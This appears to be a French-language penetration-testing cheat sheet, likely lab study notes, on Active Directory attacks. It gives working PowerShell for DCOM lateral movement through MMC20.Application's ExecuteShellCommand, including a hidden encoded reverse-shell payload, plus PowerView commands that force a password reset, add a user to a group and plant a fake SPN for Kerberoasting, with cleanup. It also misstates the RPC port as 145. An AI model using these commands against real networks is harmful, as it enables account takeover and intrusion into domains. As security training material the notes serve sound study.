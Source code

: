 ```powershell
powershell
Enter-PSSession -ComputerName DC01
```

# DCOM
Component Object Model (COM) extention permet aux logiciels d'interagir entre eux. Distributed Component Object Model est une extention pour interagir sur un réseau
Abuse Microsoft Management Console (MMC) COM application. Expose ExecuteShellCommand.
Doit avoir les droits d'exécuter (**sur machine locale ou distante?**)
Utilise **RPC** sur port **145**, requière **administrateur local**

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
$target_ip = "172.16.190.10";
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1",$target_ip))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
#ou reverseshell
$payload = "powershell -nop -w hidden -e JABjA...="
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,$payload,"7")

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

# Changer mot de passe

```powershell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

# Ajout de membre à un groupe
```powershell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
#confirmer
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
Retirer
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
# Ajout d'un SPN à un usager
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
Retirer
```powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
